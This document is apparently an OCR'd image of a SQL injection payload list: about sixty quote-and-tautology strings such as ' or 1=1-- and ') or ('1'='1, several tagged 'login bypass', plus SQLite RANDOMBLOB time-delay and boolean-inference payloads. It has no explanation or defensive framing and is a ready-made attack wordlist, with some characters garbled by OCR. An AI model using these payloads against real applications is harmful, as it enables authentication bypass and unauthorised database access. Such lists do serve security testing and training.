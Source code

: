 ```
" or 1=1/*
" or 1=1–
") or "1"="1
") or "1"="1"#
") or "1"="1"--
") or "1"="1"/*
") or ("1"="1
") or ("1"="1"#
") or ("1"="1"--
") or ("1"="1"/*
' or '1'='1
' or '1'='1'#
' or '1'='1'--
' or '1'='1'/*
' or '1′='1
' or 1=1
' or 1=1 --
' or 1=1 –
' or 1=1#
' or 1=1/*
' or 1=1;#
' or 1=1–
') or '1'='1
') or '1'='1'#
') or '1'='1'--
') or '1'='1'/*
') or '1'='1--
') or ('1'='1
') or ('1'='1'#
') or ('1'='1'--
') or ('1'='1'/*
') or ('1'='1--
'or'1=1
'or'1=1′
) or '1′='1–
) or ('1′='1–
or 1=1
or 1=1#
or 1=1--
or 1=1/*
OR 1=1
" OR 1 = 1 -- -
OR 1=1
OR 1=1#
OR 1=1-- 
' or 1=1 LIMIT 1;#
OR 1=1	login bypass
' or 1=1#	login bypass
' or 1=1--	login bypass
' or 1=1/*	login bypass
') or '1'='1--	login bypass
') or ('1'='1--	login bypass
' OR 1=1--	login bypass
"or 1=1 or ""="
'or 1=1 or ''='
OR 1=2, and	login bypass
OR 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
OR 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))
OR 3409=3409 AND ('pytW' LIKE 'pytW
OR 3409=3409 AND ('pytW' LIKE 'pytY
" or "a"="a
") or ("a"="a
' or 'a'='a
```